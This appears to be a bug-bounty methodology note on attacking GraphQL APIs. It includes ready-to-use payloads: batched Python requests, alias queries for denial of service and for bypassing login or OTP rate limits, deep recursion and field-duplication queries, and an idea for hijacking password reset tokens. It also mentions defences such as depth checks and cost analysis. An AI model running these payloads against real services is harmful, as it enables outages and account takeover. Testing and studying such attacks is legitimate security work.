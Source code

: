 
# 1 - Batch Query Attacks

If a resource intensive GraphQL query is identified, batch processing can be used to call the query and potentially overwhelm the service for a prolonged period of time.

```
data = [
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]}
]
requests.post('http://host/graphql', json=data)
```

### Aliases based Attack
If batching is disabled, use aliases, if the server is not analyzing the cost of the query, it can be used to DOS, or it can be used to bypass rate limiting on Login, OTP...

```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```

> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.


# 2 - Denial of Service 
### 2.1 :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

### 2.2 :: Resource Intensive Query Attack
Some queries may be computationally more expensive than others, as they would trigger more complex backend logic in order to fulfill the query resolution. we can abuse it by calling these actions frequently in order to cause resource exhaustion.
```
query {
  t1:systemUpdate
}
```
Execution Time :: 81 seconds
> [!NOTE]
> if Query Cost Analysis protection is implemented it should it!
### 2.3 Field Duplication Attack
Various GraphQL implementation do not bother de-duplicating repeating fields in GraphQL, allowing the user to multiply the same requested fields as they wish.
```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
    }
}
```



# 3 - GraphQL CSRF
Doesn't differ from regular [CSRF](https://portswigger.net/web-security/graphql#graphql-csrf) 


## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

## Refrences
- [Bypassing rate limiting using Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
